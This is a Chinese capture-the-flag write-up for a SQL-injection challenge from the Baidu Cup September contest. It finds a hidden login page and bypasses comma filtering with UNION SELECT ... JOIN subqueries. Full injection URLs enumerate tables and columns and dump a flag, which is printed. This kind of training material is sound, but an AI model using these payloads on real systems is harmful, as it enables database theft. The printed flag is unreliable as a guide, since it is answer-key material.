








# SQL

## 题目描述
---
```
后台有获取flag的线索 
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---
SQL 注入绕过

## 题目分值
---
50

## 部署方式
---


## 解题思路
---

在页面注释中发现`login.php`，一通测试后什么都没有



再次关注包内容，在`index.php`，发现中间多一次跳转，在`header`中给出了一个页面`l0gin.php`



`1' order by 3 %23` 测试到有两个字段



继续测试时发现本题目会将`,`后的内容截断，测试`1' order by 1,2 -`内容时，`2 =`内容不见了。



可以使用`join`来绕过`,`的过滤，如使用`-1' union select * from (select 1) a join (select user() ) b %23`

```
http://780ab3633a2349dcb60dfe156c7af8787f367acbc74648cf.changame.ichunqiu.com/l0gin.php?id=-1' union select * from (select 1) a join (select user() ) b %23
```



剩下的就是标准的做法了

列出表名  select group_concat(distinct table_name) from information_schema.tables where table_schema=database()

```
http://780ab3633a2349dcb60dfe156c7af8787f367acbc74648cf.changame.ichunqiu.com/l0gin.php?id=-1' union select * from (select 1) a join (select group_concat(distinct table_name) from information_schema.tables where table_schema=database() ) b %23
```



列出列名  select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='users'

表 users

```
http://780ab3633a2349dcb60dfe156c7af8787f367acbc74648cf.changame.ichunqiu.com/l0gin.php?id=-1' union select * from (select 1) a join (select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='users') b %23
```



字段 id,username,flag_9c861b688330

列出数据 select group_concat(flag_9c861b688330) from users

```
http://780ab3633a2349dcb60dfe156c7af8787f367acbc74648cf.changame.ichunqiu.com/l0gin.php?id=-1' union select * from (select 1) a join (select group_concat(flag_9c861b688330) from users) b %23
```



flag{faccb38c-48e0-4fec-97de-7abf9a836041}

## 参考
---
